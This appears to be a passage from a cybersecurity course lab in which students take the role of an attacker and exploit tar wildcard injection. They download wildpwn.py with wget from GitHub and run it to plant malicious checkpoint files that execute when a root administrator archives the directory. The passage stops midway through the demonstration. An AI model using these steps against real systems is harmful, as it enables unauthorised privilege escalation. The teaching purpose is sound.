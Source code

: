 - A hacker has gained access to our system by stealing the password for the instructor user.

- Although for this example we will pretend that instructor user does not have root access, in your activity you will truly be working on a user without root access.

- We will be taking the role of the hacker and will use `wildpwn.py` to plant malicious files. These files will be executed when an administrator with root privileges runs the tar command.

#### Exploiting `tar` Demo 

1. Open up a terminal and run the following commands:

    - Create a new directory for this demonstration: `mkdir ~/Documents/exploit_demo`

    - Move to the `exploit_demo` directory with: 

        - `cd ~/Documents/exploit_demo`

        - This is the directory to which the hacker would download the `wildpwn.py` program.

2. Download the script with `wget`.

    - Then, run `ls -l` to show that the `wildpwn.py` program is in this directory.

    - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

    - `ls -l`

      ```
      -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
      ```

3. Type  `python wildpwn.py tar .` and note that this will create both the malicious script and checkpoint files.

      - `python` is used to run Python programs.
      - `wildpwn.py` is the program we’re executing.
      - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
      - The `.` specifies that these files should be created in the current directory.

   - Run the command and show the output:

      - `python wildpwn.py tar .`
      ```  
      [!] selected payload tar

      [*] Done! Now wait for something like: archive.tar * on . Good Luck!
      ```

    - Running `wildpwn.py` has successfully planted all the files needed for an attacker to exploit the system. These malicious files will be executed as soon as an administrator creates a `tar` archive containing them.

4. The script is now listening for someone to use the tar command. Let's archive this directory to activate the script.

    - This step will show how malicious code will execute when an unsuspecting administrator runs the `tar` command with a wildcard character. 

    - Now, use `tar` with a wildcard to create an archive to generate the malicious files: 
